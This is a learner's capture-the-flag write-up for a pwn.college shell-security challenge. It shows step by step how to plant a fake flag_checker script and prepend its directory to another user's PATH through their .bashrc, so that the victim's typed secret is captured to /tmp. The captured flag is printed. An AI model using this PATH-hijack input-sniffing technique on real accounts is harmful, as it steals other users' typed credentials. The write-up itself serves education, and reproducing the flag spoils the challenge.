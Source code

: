 ### New Learnings
I learned how the .bashrc of a user can exploited to carry out commands that can only be executed by that particular user with permission.

### References

## Sniffing Input
In the previous level, you abused Zardus's ~/.bashrc to make him run commands for you.

This time, Zardus doesn't keep the flag lying around in a readable file after he logs in. Instead he'll run a command named flag_checker, manually typing the flag into it for verification.

Your mission is to use your continued write access to Zardus's .bashrc to intercept this flag. Remember how you hijacked commands in the Pondering PATH module? Can you use that capability to hijack the flag_checker?

HINT: Is Zardus getting spooked by your hijack? He's careful --- he checks for the flag_checker prompt of Type the flag. Make sure your hijack also prints this prompt (e.g., echo "Type the flag"). Other than printing that prompt, your fake flag_checker can either just a) cat Zardus's input to stdout (e.g., cat with no arguments) or b) read it into a variable and echo it out. Up to you!

HINT: Don't forget to make your fake flag_checker executable, like you learned in the Perceiving Permissions module!

### Solve
**Flag:** `pwn.college{QTKWCQamGVCzW_DgP1RpEtOkllJ.0VNzEzNxwSN1gjNzEzW}`
 for this Challenge,i created a new directory in hacker directory and created a script called flag_checker and added the required text output for zardus and take the inputed flag from zardus and transfer it into a text file in a publicaly readable directory like tmp as zardus user can't create a file in hacker user directory.Then i made it executable and opened the zardus's .bashrc script and updated the PATH variable with /home/hacker/new at the beginning. Then i ran /challenge/victim to simulate zardus user and then i catted the text file to get the flag.

```bash 
hacker@shenanigans~sniffing-input:~$ mkdir ~/new
hacker@shenanigans~sniffing-input:~$ nano ~/new/flag_checker
#!/bin/bash
echo "Type the flag" 
cat > /tmp/flag1.txt
hacker@shenanigans~sniffing-input:~$ chmod +x ~/new/flag_checker
hacker@shenanigans~sniffing-input:~$ echo 'export PATH=/home/hacker/new:$PATH' >> /home/zardus/.bashrc
hacker@shenanigans~sniffing-input:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag
*************************************************************exit
^Z
[2]+  Stopped                 /challenge/victim
hacker@shenanigans~sniffing-input:~$ cat /tmp/flag1.txt
pwn.college{QTKWCQamGVCzW_DgP1RpEtOkllJ.0VNzEzNxwSN1gjNzEzW}
```
